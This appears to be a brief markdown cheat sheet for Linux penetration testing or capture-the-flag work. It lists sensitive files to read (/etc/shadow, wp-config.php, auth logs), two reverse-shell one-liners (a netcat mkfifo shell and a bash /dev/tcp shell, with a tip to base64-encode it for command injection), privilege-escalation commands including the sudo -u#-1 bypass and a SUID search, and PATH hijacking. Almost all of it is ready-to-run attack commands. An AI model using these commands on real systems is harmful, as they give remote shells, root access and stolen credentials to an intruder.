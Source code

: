 ## Important files (Default Location)
```
/etc/passwd
/etc/group
/etc/shadow
/var/www/html/
/var/www/
/tmp/
/home/
/var/log/nginx/access.log
/var/log/apache/access.log
/var/log/auth.log
/etc/apache2/sites-available/000-default.conf
/etc/samba/smb.conf
/var/www/html/wordpress/wp-config.php
/etc/fstab
```

### PrivEsc
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
sudo -l   # /etc/sudoers
find / -perm -4000 2>/dev/null    # file with suid
sudo -u#-1 /bin/bash
```

### Reverse Shell
```
echo "bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1" |bash    # base64 encode the echo cmd; use for os command injection (api)
```

### Not So Important But May Be Useful (Default Location)
```
/proc/cpuinfo
```

### PATH
```
export PATH=/tmp:$PATH
```

### Docker
```
docker build -t [image-name] [Dockerfile location]    # building a docker image from the image file
docker run [image-name]   # running the docker image
```
